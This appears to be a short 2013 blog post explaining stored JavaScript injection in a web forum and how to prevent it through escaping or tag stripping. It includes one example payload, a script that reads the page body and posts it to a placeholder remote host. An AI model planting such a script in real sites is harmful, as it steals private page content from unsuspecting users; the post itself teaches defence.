```yaml
---
layout: post
title: "Javascript injection attack - what is it and how to prevent"
date: 2013-06-15 20:46
comments: true
tags:
- javascript
categories:
- programming
- security
---
```

Yes we've heard of the term "Javascript injection" from time to time but have you ever wonder how it actually works? In this post I will use a very simple example to demostrate how a potential attacker can take advantage of this kind of vulnerability.

Let's say we build a user forum which only registered user can view its content. One of the basic feature of a forum is to allow user to create new topics or reply to existing topics. In either case we need to create some html form to accept user inputs. We are very aware of MySQL injection so we use prepared statement to store topic content into the database. All is well but we

* forgot to sanitize the topic body (and/or other related fields such as subject) before storing to database
* render content from database as is without using proper escaping. So if an attacker enters the following content into the topic body:


```html
Hello there.
<script type="text/javascript">
	var _info=$('body').html();
	$.post('http://some.remote.host/',{data:_info});
</script>

```
When the topic gets rendered in a normal user's browser, user will see "Hello there" in the topic content. Under the hood the page's html source code (which might contains some information only the user should  have access to) will be sent to a remote host that the attacker has access to without user's awareness as the js code is not rendered (but it does get executed in user's browser). If $('body') contains too much info, the attacker can choose to steal information specific element (or elements).

To prevent this kind of attack, we need to either:
Properly escape content from the server when rendering in the browser.
or
Strip tags such as `<script>`, or only allow tags such as p, br when storing user input into database.
